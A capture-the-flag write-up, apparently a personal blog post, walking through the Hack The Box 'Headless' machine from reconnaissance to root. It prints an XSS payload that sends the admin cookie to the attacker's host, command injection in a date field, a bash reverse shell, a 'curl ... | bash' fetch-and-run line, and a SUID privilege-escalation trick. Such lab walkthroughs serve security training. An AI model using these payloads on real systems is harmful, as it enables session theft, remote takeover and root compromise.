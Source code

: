 ```yaml
---
layout: post
section-type: post
has-comments: true
title: Hack The Box - Headless
category: tech
tags: ["tutorial"]
---
```


### Reconnaissance and Initial Steps

#### Nmap Results

```
sudo nmap -Pn -sT -sU -sC -sV 10.10.11.242
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/14b8cd55-fcce-42df-bdf6-9d19d99017d7)

I add headless to /etc/hosts with the corresponding ip address given. Then navigate to `http://headless.htb:5000`


```
echo "10.10.11.8 headless.htb" | sudo tee -a /etc/hosts
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/3bd6636f-3891-49d6-988c-f4de867e7ce6)


#### Directory Enumeration

```
dirsearch -u http://headless.htb:5000
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/5a86b5e0-bb85-4ef3-a558-d560c4c57c70)

We can see that there are two pages available; `/support` and `/dashboard`. Let’s visit both of them to find our way into the machine.

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/a17cd01d-309a-4ee0-baa7-3855e53f86f5)


To access the `/dashboard`, we either need to be logged in as a user with elevated privileges (admin) (but I don’t see a login page), or we need to trick the server into believing that we are authorized to access the URL. When considering how to trick the server, I think about providing it with either an admin cookie or an admin session ID.


### Getting Foothold on Headless

We need to provide a payload that can capture the cookies of the admin user who will be reviewing our support queries. The payload will look like this:

```
<script>document.location='http://<Your_Kali_IP>/?cookie='+document.cookie</script>
```

Additionally, we can URL encode this payload by pressing `Ctrl + u`. Along with this payload, we also need to start an HTTP server using the following command:

```
python3 -m http.server 80
```

At this stage, we need to test the XSS payload across all parameters present in the POST request, including message, email, User-Agent, and others. After testing, we'll discover that the same payload must be inserted into two specific parameters: message and User-Agent."

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/dbd01369-141b-45f5-b0d8-884309419e76)

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/b6a376a8-a032-4c50-a487-3237efc72d18)

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/bd5427da-f098-4705-9575-0ef0fcfb5636)

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/66777c23-637e-43fe-850a-5118d9c5badd)

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/0495bd70-013b-4a9e-b273-fdeb1e6a3dd8)


After waiting for a minute, we can see that we have received the admin user's cookie. Now, we can add this cookie value to our browser using the inspect element feature or cookie editor add-on.

Navigate to `http://headless.htb:5000/dashboard` to access the Administrator Dashboard. Here, you'll encounter an option to generate the website's health report for a specific date. Let's intercept this request via Burp Suite and transfer another POST request to the repeater tool.

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/1ccfa512-d5e0-4659-a0a0-714eba2024b7)


Within the body of this request, locate the date parameter. We'll attempt to detect a command injection vulnerability using this parameter by employing the following payload:

```
&& pwd
```
Additionally, we can URL encode this payload by pressing `Ctrl + u`. Now, let's send the request and check the response, where we will find that the date parameter is vulnerable to command injection.

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/8d80e730-3305-4f7e-b23f-43491f7e8440)

I make a file named `payload.sh` with the following inside it.

```
/bin/bash -c 'exec bash -i >& /dev/tcp/10.10.16.18/4444 0>&1'
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/f839669f-b9fe-4b9b-9a63-6856ddb48762)

The IP address should be your IP address, and the port number `/4444` represents the port on which I'm going to open my netcat listener.

```
nc -nlvp 4444
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/8e527634-6ff3-4438-b867-e842a22ac53d)

finally run the Python3 HTTP server to host the file (payload.sh) using the following command

```
python3 -m http.server 8081
```

We want to insert a command that will fetch the payload file we created and run it. Make sure that you have your admin cookie listed in the cookie field. (don't forget `ctrl + u`)

```
curl http://10.10.16.18:8081/payload.sh|bash
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/08581364-7a9a-460a-81f8-4361f07c94d5)


We can see that the payload.sh file is downloaded by the web server and then executed which results in getting a reverse shell on our netcat listener.

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/b8328dfb-3cf9-48d3-a726-a77c46c9651e)

get `user.txt`

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/cab10a6a-8533-4e2c-ac9f-b995b150d931)


### Privilege Escalation

Now, let's proceed to gain root access on the target machine. We'll initiate by checking the sudo privileges using the following command:

```
sudo -l
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/e6f89830-4912-4b7b-a2b0-d7f65bc5ab9a)


Upon execution, it's revealed that the `dvir` user possesses permission to execute the `/usr/bin/syschec`k binary as the root user. Let's inspect the contents of this binary.

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/6f9a7877-300c-4df9-a061-daef38545a0a)


We'll discover that there's a bash script named `initdb.sh` that is executed without specifying its full path. Exploiting this vulnerability is straightforward; we create a malicious bash script with the same name. Executing the following commands accomplishes this:

```
echo "chmod u+s /bin/bash" > initdb.sh
```

```
chmod +x initdb.sh
```

Upon executing the `syscheck` binary, our malicious script in the current directory takes precedence. This script assigns the SUID bit of the root user to the /bin/bash file. To witness this in action, we run the command:

```
sudo /usr/bin/syscheck
```

Following this command execution, we proceed to execute `/bin/bash` with the owner's (root) privileges using the command:

```
/bin/bash -p
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/42b97909-aee5-4ae1-a7be-649999bfcd83)

After executing the above command, we'll observe that we have successfully escalated our privileges to the `root` user. Consequently, we can effortlessly access the contents of the `root.txt` file.




